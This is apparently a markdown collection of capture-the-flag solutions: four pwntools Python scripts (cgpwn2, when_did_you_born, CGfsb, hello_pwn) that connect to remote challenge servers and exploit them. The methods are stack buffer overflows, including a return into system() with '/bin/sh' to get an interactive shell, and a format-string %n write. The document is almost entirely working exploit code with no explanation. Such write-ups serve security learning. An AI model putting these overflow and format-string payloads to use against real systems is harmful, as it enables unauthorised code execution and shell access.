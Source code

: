 # cgpwn2
```python
from pwn import*
p=remote('111.198.29.45','43090')

naddr=0x804a080
sysaddr=0x8048420

pay='a'*(0x26+4)+p32(sysaddr)+'a'*4+p32(naddr)

p.recv()
p.sendline('/bin/sh\x00')

p.recv()
p.sendline(pay)

p.interactive()
```

# when_did_you_born

```python
from pwn import *
p=remote('111.198.29.45',38206)
pay1='1999'
pay2='a'*8+p64(1926)
p.recvuntil('?')
p.sendline(pay1)
p.recvuntil('?')
p.sendline(pay2)
p.interactive()
```

# CGfsb

```python
from pwn import *
p=remote('111.198.29.45',57986)

addr=0x0804a068
pay1='ffdy'
pay2=p32(addr)+'a'*4+'%10$n'

p.recvuntil(':')
p.sendline(pay1)
p.recvuntil(':')
p.sendline(pay2)
p.interactive()
```

# hello_pwn

```python
from pwn import *
pay='a'*4+p64(1853186401)
p=remote('111.198.29.45',35522)
p.recvuntil('bof')
p.sendline(pay)
p.interactive()
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbNDEyNDc0MjI1XX0=
-->